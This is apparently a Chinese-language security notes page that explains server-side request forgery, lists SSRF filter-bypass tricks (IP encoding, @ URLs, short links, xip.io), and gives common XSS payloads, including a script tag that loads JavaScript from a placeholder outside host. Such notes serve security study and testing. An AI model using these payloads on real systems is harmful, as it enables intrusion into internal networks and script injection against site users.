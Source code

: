 # SSRF
SRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。
## 常用绕过 payload等
使用@：http://A.com@10.10.10.10 = 10.10.10.10
IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
端口绕过：ip后面加一个端口
xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
通过js跳转
# XSS
## 常见payload

1. <script>alert(1);</script>
<img src=0 onerror=alert(1)>

2. "><script src=http://www.xxx.com/1.js></script>"

反射XSS，欺骗用户点击，可能会被浏览器过滤
